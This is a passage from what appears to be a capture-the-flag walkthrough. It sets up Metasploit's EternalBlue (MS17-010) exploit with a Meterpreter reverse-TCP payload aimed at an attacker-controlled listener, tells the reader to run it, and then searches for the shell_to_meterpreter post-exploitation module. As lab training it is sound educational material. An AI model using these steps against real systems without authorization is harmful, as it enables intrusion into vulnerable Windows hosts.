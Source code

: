 ```
   SMBPass                         no        (Optional) The password for the specified usernam
                                             e
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Targ
                                             et. Only affects Windows Server 2008 R2, Windows
                                             7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only a
                                             ffects Windows Server 2008 R2, Windows 7, Windows
                                              Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, no
                                        ne)
   LHOST     <your_ip>        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

**Now all that is left is to run the exploit.**
* Type the command: `run`

---

#### Task 3: Escalate

**Q1: What is the name of the post module we will use?**
* in msfconsole type the command:`search shell_to_meterpreter`

Select the module: `post/multi/manage/shell_to_meterpreter`

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```
